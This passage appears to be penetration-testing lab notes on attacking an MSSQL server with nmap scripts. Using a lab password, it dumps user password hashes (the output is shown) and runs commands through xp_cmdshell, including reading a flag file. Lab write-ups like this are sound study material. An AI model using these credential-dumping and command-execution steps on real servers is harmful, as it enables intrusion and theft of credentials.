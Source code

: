 ![nmap ms-sql-query](assets/image-20230219192121059.png)

- Dump MSSQL users hashes

```bash
nmap --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria -p1433 10.4.21.27
```

![nmap ms-sql-dump-hashes](assets/image-20230219192459540.png)

> 📌 ***MSSQL*** users hashes are:
>
> `sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0`
>
> `##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c`
>
> `##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083`
>
> `admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0`
>
> `Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4`
>
> `Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5`
>
> `auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e`
>
> `dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b` 

- Execute a command using [`ms-sql-xp-cmdshell`](https://nmap.org/nsedoc/scripts/ms-sql-xp-cmdshell.html) nmap script.
  - [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) *spawns a Windows command shell and passes in a string for execution*

```bash
nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" -p1433 10.4.21.27
```

![nmap ms-sql-xp-cmdshell](assets/image-20230219192841055.png)

```bash
nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" -p1433 10.4.21.27

# MSSQL service is configured with xp_cmdshell enabled (no by default)
```

